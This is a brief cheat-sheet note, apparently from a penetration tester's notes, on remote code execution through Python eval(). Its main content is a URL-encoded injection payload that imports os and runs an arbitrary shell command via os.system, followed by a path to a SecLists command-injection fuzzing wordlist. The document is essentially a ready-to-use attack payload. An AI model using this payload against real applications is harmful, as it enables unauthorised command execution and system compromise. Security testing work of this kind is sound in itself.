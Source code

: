 Python RCE using eval():
---
#rce #python #eval

Python "eval" payload:
```python
'%2beval(compile('for x in range(1):\n import os\n os.system("$CMD")','anything','single'))%2b'
```

Seclists RCE Payloads
```lists
/usr/share/seclists/Fuzzing/command-injection-commix.txt
```
